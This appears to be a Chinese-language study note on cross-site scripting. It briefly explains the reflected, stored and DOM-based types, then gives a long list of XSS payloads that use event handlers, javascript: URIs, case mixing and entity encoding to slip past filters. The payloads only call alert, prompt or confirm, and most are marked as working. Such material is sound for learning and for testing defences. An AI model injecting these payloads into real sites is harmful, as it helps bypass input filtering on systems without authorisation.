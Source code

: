 #知识点

跨站脚本攻击,英文全称Cross Site Script,本来编写是CSS。但是为了和层叠样式表(CSS)有所区别,所以在安全领域叫做'XSS'。XSS长期以来被列为客户端Web安全中的头号大敌
反射型XSS:反射型XSS只是简单地把用户输入的数据"反射"给浏览器。反射型XSS也叫做"非持久型XSS"
存储型XSS,未复现。概念:存储型XSS会把用户输入的数据"存储"到服务器端,这种XSS具有很强的稳定性!(持久型XSS)
DOM Based XSS(基于dom的XSS)
	"write"按钮的onclick事件调用了test()函数,而在test函数中,修改了页面的DOM节点,通过innerHTML把一段用户数据当作HTML写入到页面中,这就造成了DOM based XSS

#XSS触发姿势小结

	<a onmousemove="alert(/xss1/)">this is test1</a> <!--可以执行成功-->
	<a onmousemove=alert(/xss2/)>this is test2</a>   <!--可以执行成功-->
	<a Onmousemove=alert(/xss3/)>this is test3</a>   <!--可以执行成功-->
	<img src=x onerror=alert&#x28;1&#x29;>           <!--可以执行成功-->
	<img src=x onerror=alert(2)>           <!--可以执行成功-->
	<img src=x Onerror=alert&#40;3&#41;>    <!--可以执行成功-->
	<img src=x OneRror=alert(String.fromCharCode(27979,35797))> <!--可以执行成功-->
	<img src=x onerror=alert>
	<svg/onload=alert(/xss4/)>  <!--可以执行成功-->
	<svg onload=alert(/xss5/)>    <!--可以执行成功-->
	<img/src=x onerror=alert(/xss6/)>     <!--可以执行成功-->
	<img src=x onerror=prompt(&#34;xss7&#34;)>  <!--可以执行成功-->
	<img/src=x onerror=prompt&#x28;&#34;xss8&#34;&#x29;>   <!--可以执行成功-->
	<img/src=x onerror=alert(/xxxxxxxxxxxx/)     <!--可以执行成功-->
	<a href=javascript:alert(/xss9/)>X你</a>     <!--可以执行成功-->
	<a href=jAVascript:prompt(&#x2f;xss10&#x2f;)>X你哟</a>   <!--可以执行成功-->
	<a/href=Javascript:alert%28%2fxss11%2f%29>剪你哟</a>  <!--可以执行成功-->
	<img/**/src=x onerror=prompt&#40;100&#x29;> <!--可以执行成功-->
	<img/**/src=x onerror=alert&#40;&#x2f;1000&#47;&#x29;>   <!--可以执行成功-->
    <img src=x onerror=&#97;lert(10000)>    <!--可以执行成功-->
    <img src=x onerror=&#x61;&#x6c;ert(100000)>    <!--可以执行成功-->
    <img src=x OnError=&#97;l&#x65;rt(/xss12/)>   <!--可以执行成功-->
    <a href=javascript:alert&#40;10%29>插插插</a>   <!--可以执行成功-->
    <a href=javascript:confirm(/xss/)>test</a>    <!--可以执行成功-->
    <a href=Javascript:cnfirm%28&#47;xss1%2f%29>test1</a>  <!--可以执行成功-->
    <img src=x onerror=confirm(/xss13/)>   <!--可以执行成功-->
    <img src=x Onerror=&#99;onf&#x69;rm&#40;&#47;xss14&#47;&#x29;>   <!--可以执行成功-->
    <a href="baidu.com" onmOusemove=alert%281%28>hhhhh</a>   <!--可以执行成功-->
    <a href="baidu.com" oNmousemove=alert&#40;1&#41;>vvvv</a>   <!--可以执行成功-->
    <a href="http://baidu.com" onfocus=confirm(1)>test</a>   <!--可以执行成功-->
	<sCriPt>alert(1)</SCRipt> <!--可以执行成功-->
	<sCriPt>confirm(2)</SCRipt> <!--可以执行成功-->
	<sCriPt>prompt(3)</SCRipt>  <!--可以执行成功-->
	<iframe src=Javascript:alert(String.fromCharCode(52))>  <!--可以执行成功-->
	<a href="Javascript:'1absss'+alert(1)">go</a>  <!--可以执行成功-->
	<a href="baidu.com" oNmousemove=alert&#40;1&#41;>vvvv</a>  <!--可以执行成功-->
	<a href="http://baidu.com" onfocus=confirm(1)>test</a>  <!--可以执行成功-->
	<textarea onfocus=alert(1)>  <!--可以执行成功-->
	<body onload=prompt(10)>  <!--可以执行成功-->
	<img src=x autofocus onclick=alert(30)>  <!--可以执行成功-->
	<svg><script>alert&#40/1/&#41</script>   <!--可以执行成功-->
	<script type="text/javascript">
	<svg><script>alert&#40/2/&#41</script>
